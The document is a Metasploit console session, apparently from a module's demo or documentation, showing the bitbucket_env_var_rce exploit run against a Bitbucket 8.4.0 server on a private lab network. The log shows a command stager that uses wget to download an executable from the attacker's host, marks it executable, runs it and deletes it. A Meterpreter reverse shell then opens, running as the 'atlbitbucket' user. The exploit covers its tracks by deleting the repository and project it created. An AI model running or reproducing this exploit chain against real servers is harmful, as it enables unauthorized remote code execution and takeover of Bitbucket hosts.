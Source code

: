 ```
msf6 exploit(multi/http/bitbucket_env_var_rce) > run

[*] Started reverse TCP handler on 192.168.140.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Found version 8.4.0 of Bitbucket
[*] Versions 8.* are vulnerable only if the mesh setting is disabled
[+] The target appears to be vulnerable.
[*] Retrieving security token
[*] Project creation was successful
[+] Successfully created repository 'lNsfbXPfj'
[+] Commits added: e099800cd2c090219477bc52d7c6607aa5754686, cf0592f40c3a6ed27cee5278b473ad50fa563fd6
[*] Sending payload
[*] Using URL: http://192.168.140.1:8080/fe4DKfgaY0E3x7L
[*] Generated command stager: ["wget -qO /tmp/TRwVvMwK http://192.168.140.1:8080/fe4DKfgaY0E3x7L", "chmod +x /tmp/TRwVvMwK", "/tmp/TRwVvMwK", "rm -f /tmp/TRwVvMwK"]
[*] Client 192.168.140.149 (Wget/1.21.2) requested /fe4DKfgaY0E3x7L
[*] Sending payload to 192.168.140.149 (Wget/1.21.2)
[*] Command Stager progress -  54.24% done (64/118 bytes)
[*] Command Stager progress -  72.88% done (86/118 bytes)
[*] Transmitting intermediate stager...(106 bytes)
[*] Sending stage (1017704 bytes) to 192.168.140.149
[*] Meterpreter session 2 opened (192.168.140.1:4444 -> 192.168.140.149:58216) at 2023-03-13 15:20:02 -0500
[*] Command Stager progress -  83.90% done (99/118 bytes)
[*] Command Stager progress - 100.00% done (118/118 bytes)
[*] Changing user name back to 'administrator'
[*] Attempting to delete repository 'lNsfbXPfj'
[+] Repository has been deleted
[*] Now attempting to delete project 'PfAYOpW'
[+] Project has been deleted

meterpreter > getuid
Server username: atlbitbucket
```
